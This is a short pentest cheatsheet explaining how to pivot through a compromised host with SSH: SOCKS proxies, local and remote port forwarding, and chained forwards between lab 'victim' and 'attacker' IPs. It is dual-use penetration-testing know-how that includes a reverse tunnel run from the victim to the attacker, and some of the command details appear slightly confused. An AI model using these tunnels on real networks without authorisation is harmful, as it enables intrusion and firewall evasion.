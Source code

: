 ## SSH Cheatsheet / Blackmagic

SSH has a lot of exciting features when it comes to pivoting in a pentest environment; btw most of it stemmed from devops situations :P. This is assuming you having ssh access on your victim, probably with root privilleges.

192.168.56.201 -> Victim Machine
192.168.56.202 -> Attacker Machine

The -f Commands forks the process into background and -N will not execute remote commands so you don't see a bash terminal but it runs in background.Good for crappy shells with less interaction
### 1. Socks Proxy
	ssh -D 127.0.0.1:1080 victim@192.168.56.201 -f -N
Creates a socks proxy tunnel via your local machine at local port 1080

### 2. Local Port Forwarding
	ssh -L 9999:localhost:22 victim@192.168.56.201 -f -N
    
Let's assume you have popped a box (low priv) which has ssh service running but the firewall blocks it from outside and for some wierd reason port 9999 is acessible from the outside.
You could do the above mentioned to Locally forward 22 to 9999
    
### 3. Remote Port Forwarding
The most useful commnand you will ever use in your life; execute at victim machine  

	ssh -R 6666:localhost:22 attacker@192.168.56.202
This forwards localport (ssh of the victim) to your system local port 6666 through an ssh tunnel.

You could then connct using ssh victim@localhost -p 6666 

You could do something cooler too , assuming you have a machine on the victim network 210 and you want to access it's web port directly from your attacker machine you can do this -  

	ssh -R localhost:9060:192.168.56.210:80 victim@192.168.56.201

Here you setup a secure SSH tunnel on the localport (attacker) 9060 which has a direct connection to port 80 of 210 ( a machine on victim network), cool eh ?

After that you could do
	ssh -R 7777:localhost:9060 attacker@192.168.56.201 -f -N
    
 This would remtely forward port 9060 on victim machine to your localport 7777.
 So basically you could browse port 80 on machine 192.168.56.210 from your own browser by pointing to http://localhost:7777
 
_More example coming soon. Please tweet out to @0xrnair in case you need clarifications_ 

---
 

References:  
1. [The Black Magic of SSH / SSH Can do that ?](https://vimeo.com/54505525)   
2. [Why aren't we using SSH for everything](https://medium.com/swlh/ssh-how-does-it-even-9e43586e4ffc#.hjbor5jlu)
